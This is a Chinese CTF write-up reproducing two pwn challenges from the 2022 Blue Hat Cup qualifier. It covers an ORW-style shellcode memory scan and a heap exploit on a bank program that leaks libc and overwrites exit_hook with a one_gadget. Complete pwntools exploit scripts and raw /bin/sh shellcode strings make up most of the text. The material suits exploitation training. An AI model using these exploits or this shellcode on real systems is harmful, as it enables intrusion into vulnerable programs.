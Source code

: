 ```yaml
---
title: 2022 蓝帽杯初赛 pwn 复现
date: 2022-07-10 02:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=30/
pin: false
---
```


## escape_shellcode(PIE+无libc/orw+shellcode爆破读取)

![image-20220710092803063](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092803063.png)

![image-20220710113202330](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710113202330.png)

题目把flag读在bss段上，没给libc还开了pie，开了一个7权限的堆块区域0x2000，可以对堆块写0x100，执行之前会执行把除了rip其他寄存器清零的shellcode

![image-20220710092821892](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092821892.png)

注意的点，堆地址高5位和基地址相同，从基地址开始0x1000地读

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./escape_shellcode")
elf = ELF("./escape_shellcode")
libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

base=0x500000000000

shell='''
mov rdi,1
mov rsi,{}
mov rdx,0x1000
mov r14,0xfffff0000000
mov r15,0x1000
mov rax,1
syscall


mov rsi,rcx
and rsi,r14
add rsi,r15
add r15,0x1000
jmp $-0x19
'''.format(base)

p.send(asm(shell))

p.recvuntil("flag{")
flag = 'flag{'+p.recvuntil("}")
print(flag)
```

## Bank(exit_hook)

![image-20220710112051939](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112051939.png)

程序比较复杂，IDA解析也有点小问题，但可以看汇编。漏洞点在于

![image-20220710112202729](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112202729.png)

取钱操作中，如果取的钱和bank里的钱一致，不会减掉bank里的钱，就可以刷钱了，这里要多刷一点，因为在tran函数中的各个功能函数的参数是我们读入的钱数，如果钱少就执行不了。特别是任意地址泄露这个功能，这里我们可能要取很大的值。

![image-20220710112457335](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112457335.png)

利用思路是abyss函数可以实现一个edit的效果，只需要在bss变量这个堆里写入exit_hook，再改为one即可，难点在于libc地址的泄露，需要利用题目的任意地址free功能，用0x20的堆做一个堆合并，泄露main_arena。

![image-20220710112635037](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112635037.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./Bank")
elf = ELF("./Bank")
libc = elf.libc

def dbg(code=''):
    gdb.attach(p,code)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def cmd(choice):
    sla("Click: ",choice)

def Deposit(num):
    cmd("Deposit")
    sla("How Much? ",num)

def Put(num):
    cmd("Put")
    sla("How Much? ",num)

def Info():
    cmd("Info")

def Login(card, pwd):
    cmd("Login")
    sla(": ",card)
    sla(": ",pwd)

def Transfer(who,num):
    cmd("Transfer")
    sla("who? ",who)
    sla("How much? ",num)

# malloc_0x18[num]
def ReadHeap(num):
    Transfer("admin", num)

def FreeAddr(addr):
    Transfer("hacker", 0x33)
    sla("hacker: Great!\n",addr)

def Malloc_0x10(data):
    Transfer("guest", 6)
    p.sendafter("data: ",data)

def Realloc(size):
    Transfer("ghost", 0xB)
    sla('ghost: &^%$#@!   :)\n',size)

# malloc_0x18 = addr
def edit(addr):
    Transfer("abyss", 0)
    p.sendline(str(addr))

#---------------------------------------------------
Login("0"*0x10, "0"*0x6)

cash= 0x100
mycash = 0x203010
bankcash = 0x2030A8

for i in range(0x30):
    Put(cash)
    Deposit(cash)
    Put(cash)
    cash*=2

for i in range(8):
    Malloc_0x10(str(i)*0x10)

Realloc(0x100)
Realloc(0x1)
ReadHeap(0x148/8)
p.recvuntil("0x")
heap_base = int(p.recv(12),16)-0x10
lg("heap_base")

Malloc_0x10(p64(0)+p64(0x421))
for i in range(35):
    Malloc_0x10(p64(0)+p64(0x21))

FreeAddr(heap_base+0x4d0+0x10)# 0x420
ReadHeap(0x240/8) 
p.recvuntil("0x")
libc_base =int(p.recv(12),16)-0x1ebbe0
lg('libc_base')

rtld_global_addr = libc_base+libc.sym['_rtld_global']
lg('rtld_global_addr')
ReadHeap(((rtld_global_addr-(heap_base+0x2a0))/8))
p.recvuntil("0x")
rtld_global = int(p.recv(12),16)
lg("rtld_global")
exit_hook = rtld_global+3848
lg("exit_hook")
one = libc_base+0xe6c7e
#-------------------------------------------------------------


FreeAddr(heap_base+0x2a0)
Malloc_0x10(p64(exit_hook)*2)
edit(one)
p.interactive()
```

